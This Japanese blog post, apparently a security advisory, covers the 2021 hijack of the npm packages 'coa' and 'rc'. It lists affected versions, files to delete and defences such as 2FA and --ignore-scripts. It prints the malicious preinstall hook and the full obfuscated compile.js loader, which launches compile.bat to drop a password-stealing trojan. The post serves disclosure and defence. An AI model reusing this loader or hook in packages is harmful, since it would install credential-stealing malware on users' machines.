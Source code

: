 ```yaml
---
title: " npm の人気パッケージ 「coa」と「rc」にマルウェアが埋め込まれた"
about: "2021/11/5 npm パッケージ 「coa」と「rc」がハイジャックされ、パスワードを盗むマルウェアが埋め込まれました。現在の時点では問題のあったバージョンはすべて取り除かれています。"
createdAt: "2021-11-07T00:00+09:00"
updatedAt: "2021-11-07T00:00+09:00"
tags: ["JavaScript", "セキュリティ"]
published: true
---
```

2021/11/5 npm パッケージ 「coa」と「rc」がハイジャックされ、パスワードを盗むマルウェアが埋め込まれました。現在の時点では問題のあったバージョンはすべて取り除かれています。

- [coa](https://github.com/veged/coa/issues/99) はコマンドライン引数のパーサーで、週に880万ダウンロードされています。有名なライブラリですと [React](https://github.com/facebook/react/blob/main/yarn.lock#L4748) がや [@vue/cli-service](https://github.com/vuejs/vue-cli/blob/dev/yarn.lock#L7286) がこのパッケージに依存しています。
- [rc](https://github.com/veged/coa/issues/99) は 設定のローダーで、週に130万ダウンロードされています。

## 影響を受けたバージョン

### coa

- 2.0.3
- 2.0.4
- 2.1.1
- 2.1.3
- 3.0.1
- 3.1.3

### rc

- 1.2.9
- 1.3.9
- 2.3.9

## なにをすべきですか？

npm を利用しているレポジトリにおいて「coa」または「rc」の上記に該当するバージョンが存在するか `package.lock.json` または `yarn.lock` ファイルを確認します。

もしこれらのバージョンが含まれていた場合あなたのマシンに以下のファイルが含まれていないかどうか確認し、削除する必要があります。また、あなたのパスワードの情報はすでに盗まれている可能性があるので速やかに変更をすべきです。

- compile.js
- compile.bat
- sdd.dll

## マルウェアの内容

埋め込まれたマルウェアは「coa」と「rc」どちらも同じ内容で、どちらも `preinstall` を利用した攻撃となっています。

`preinstall` は `npm-script` に定義できる [Life Cycle Scripts](https://docs.npmjs.com/cli/v7/using-npm/scripts#life-cycle-scripts) と呼ばれる特殊なスクリプトであり `npm install` が実行される直前に実行されます。

```js
"preinstall": "start /B node compile.js & node compile.js"
```

影響を受けたバージョンには `compile.js` と `compile.bat` という名前のファイルが含まれており `npm install` を実行することで `compile.js` が実行されてしまいます。

- compile.js

```js
const _0x29286e=_0x3b9e;(function(_0x595213,_0x1c7f12){const _0x524030=_0x3b9e,_0x10bbc4=_0x595213();while(!![]){try{const _0x5ab451=parseInt(_0x524030(0xef))/0x1*(-parseInt(_0x524030(0xfa))/0x2)+parseInt(_0x524030(0xf7))/0x3+-parseInt(_0x524030(0xf6))/0x4*(parseInt(_0x524030(0xf5))/0x5)+-parseInt(_0x524030(0xf2))/0x6*(-parseInt(_0x524030(0xed))/0x7)+-parseInt(_0x524030(0xf8))/0x8*(parseInt(_0x524030(0xe9))/0x9)+parseInt(_0x524030(0xeb))/0xa+parseInt(_0x524030(0xf3))/0xb*(parseInt(_0x524030(0xf4))/0xc);if(_0x5ab451===_0x1c7f12)break;else _0x10bbc4['push'](_0x10bbc4['shift']());}catch(_0x3b1efb){_0x10bbc4['push'](_0x10bbc4['shift']());}}}(_0x4f67,0x3d733));const {exec}=require('child_process');function _0x4f67(){const _0x5d7817=['28bejTPQ','1355673ZDaxId','779896MgsJdu','child_process','26358GzOkXk','MacOS','platform','cmd.exe','win64','27EVEPMY','win32','768760SJubeg','Linux','111587KPhwpG','compile.bat','11xGbwXc','linux','darwin','36HiOlse','11PTXHjR','3696096qOooYF','173780mPHnxy'];_0x4f67=function(){return _0x5d7817;};return _0x4f67();}var opsys=process[_0x29286e(0xfc)];function _0x3b9e(_0x21f5ee,_0x411966){const _0x4f6708=_0x4f67();return _0x3b9e=function(_0x3b9ecb,_0x3ac81f){_0x3b9ecb=_0x3b9ecb-0xe9;let _0x5a6794=_0x4f6708[_0x3b9ecb];return _0x5a6794;},_0x3b9e(_0x21f5ee,_0x411966);}if(opsys==_0x29286e(0xf1))opsys=_0x29286e(0xfb);else{if(opsys==_0x29286e(0xea)||opsys==_0x29286e(0xfe)){opsys='Windows';const {spawn}=require(_0x29286e(0xf9)),bat=spawn(_0x29286e(0xfd),['/c',_0x29286e(0xee)]);}else opsys==_0x29286e(0xf0)&&(opsys=_0x29286e(0xec));}
```

`compile.js` が実行されることで `compile.bat` というバッチファイルが実行されます。このバッチが実行されると `sdd.dll` がインストールされ起動されます。このマルウェアは、Windows用のパスワード盗用トロイの木馬であるDanabotである可能性が高いです。

Danabotが読み込まれると、以下のような様々な悪意ある活動を行います。

- Chrome、Firefox、Opera、Internet Explorer、Safariなどの様々なウェブブラウザからパスワードを盗む。
- VNC、FTPクライアント、メールアカウントなど、様々なアプリケーションからパスワードを盗む。
保存されているクレジットカードを盗む。
- アクティブな画面のスクリーンショットを撮る。
- キーストロークを記録する。

## npm のセキュリティに対する対策

### 2FA の有効化

マルウェアが埋め込まれた現在として npm のパッケージを公開する権限がある人のアカウントが乗っ取られたことが要因として上げられています。npm としては同様の攻撃を防ぐため**2FAを有効にする**ことが強く推奨されています。

https://twitter.com/npmjs/status/1456310653681999876

### pre-install を無効化する

マルウェアの実行の多くは `pre-install` スクリプトによって行われています。パッケージをインストールする際に `--ignore-scripts` オプションを付与することでスクリプトの実行をオプトアウトできます。

```
npm install --ignore-scripts
yarn add --ignore-scripts
```

## 参考

- https://therecord.media/malware-found-in-coa-and-rc-two-npm-packages-with-23m-weekly-downloads/
- https://www.bleepingcomputer.com/news/security/popular-coa-npm-library-hijacked-to-steal-user-passwords/
- https://github.com/advisories/GHSA-g2q5-5433-rhrf
- https://github.com/advisories/GHSA-73qr-pfmq-6rp8
